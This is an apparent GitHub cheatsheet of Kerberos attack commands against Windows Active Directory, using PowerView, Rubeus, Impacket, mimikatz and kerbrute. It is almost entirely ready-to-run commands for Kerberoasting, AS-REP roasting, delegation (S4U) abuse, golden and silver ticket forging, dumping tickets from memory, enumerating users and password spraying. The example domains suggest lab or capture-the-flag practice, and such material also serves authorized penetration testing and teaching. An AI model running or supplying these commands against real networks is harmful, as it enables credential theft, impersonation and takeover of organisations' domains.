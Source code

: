## Kerberos Attacks cheatsheet.

#### This is a document of various Linux and Windows commands an attacker can utilize to enumerate and / or attack a target via Kerberos.

- The most common tools used will be [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) a powershell script for Windows AD enumeration. [Rubeus](https://github.com/GhostPack/Rubeus), a Windows PE used to enumerate and attack Kerberos on a Windows machine. [Impacket](https://github.com/SecureAuthCorp/impacket), various python scripts to enumerate and attack low level processes such as kerberos. 

1. Get Kerberoastable accounts & hashes

			
	PS C:\> Import-Module .\PowerView.ps1
		
	PS C:\> Invoke-Kerberoast
		

2. Get Kerberoastable accounts & hashes on Linux

	
	> $ GetUserSPNs.py "domain name"/"username"
	
	> $ impacket-GetUserSPNs "scrambled.htb"/"kristin"
	

3. Get AS-Rep roastable accounts & hashes on Windows.

	
	PS C:\> Import-Module .\PowerView.ps1
	
	PS C:\> Get-DomainUser -UACFilter DONT_REQ_PREAUTH
	

4. **Impacket** | Get AS-Rep roastable accounts & hashes on Linux. 

	
	> $ GetNPUsers.py 'inlanefreight.local'/'random user'
	
	> $ impacket-GetNPUsers 'TARGET DOMAIN'/'USER ACCT'
	

5. **Windows Rubeus** | Monitor TGT copies in TGS every 5 secondes (Unconstrained Delegation)

	
	PS C:\> Rubeus.exe monitor /interval:5
	


6. **Windows Rubeus** | Get a TGS using a TGT

	
	PS C:\> Rubeus.exe asktgs /ticket:'b64 ticket' /service:'SPN' /ptt 
	


7. **Windows Rubeus** | Renew a TGT and pass it in memory

	
	PS C:\> Rubeus.exe renew /ticket:'b64 ticket' /ptt
	


8. **Windows PowerView** | Get service accounts with constrained delegation on Windows

	
	PS C:\> Import-Module .\PowerView.ps1 
	
	PS C:\> Get-DomainComputer -TrustedToAuth 
	


9. **Windows Rubeus** | Perform a S4U2* attack on Windows 

	
	PS C:\> Rubeus.exe s4u /impersonateuser:'User' /msdsspn'SPN' /altservice:'SRV' /user:'USR' /rc4:'NT Hash' /ptt
	


10. **Linux Impacket** | Get service aaccounts with delegation on Linux 

	
	$ findDelegation.py 'target domain'/'user'
	
	
	$ impacket-findDelegation 'target domain'/'user'
	


11. **Linux Impacket** | Perfrom a S4U2* attack on Linux 

	
	$ getST.py -spn 'SPN' -hashes :'NT Hash' 'domain'/'user' -impersonate 'user' 
	
	
	$ impacket-getST.py -spn 'SPN' -hashes :'NT Hash' 'domain'/'user' -impersonate 'user' 
	


12. **Windows mimikatz** | Forge a golden ticket on Windows 

	
	mimikatz # kerberos::golden /domain:'domain' /user:'user' /sid:'Domain SID' /rc4:'krbtgt NT hash' /ptt
	 


13. **Linux Impacket** | Forge a golden ticket on Linux 

	
	$ ticketer.py -nthash 'krbtgt NT hash' -domain-sid :'Domain SID' -domain 'domain' 'user'
	


14. **Windows mimikatz** | Forge a silver ticket on Windows 

	
	mimikatz # kerberos::golden /domain:'target domain' /user:'user' /sid:'Domain SID /rc4:'Service Account NT hash' /target:'target service account' /service:'service' /ptt
	 


15. **Linux Impacket** | Forge a silver ticket on Linux 

	
	$ ticketer.py -nthash 'Service account NT hash' -domain-sid 'Domain SID' -domain 'domain' -spn 'SPN' 'User'
	 


16. **Windows Rubeus** | Dumps TGT in memory 

	
	PS C:\> Rubeus.exe dump /luid:0x89275d /service:krbtgt 
	
	

17. **Linux Kerbrute** | Enumerate user accounts via Kerberos 

	
	$ kerbrute userenum 'username-list.txt' --dc 'FQDN' -d 'target domain' 
	


18. **Linux Kerbrute** | Password spraying via TGT request 

	
	$ kerbrute passwordspray 'username-list.txt' 'password to spray' --dc 'dc01.scrambled.htb' -d 'scrambled.htb'
	 
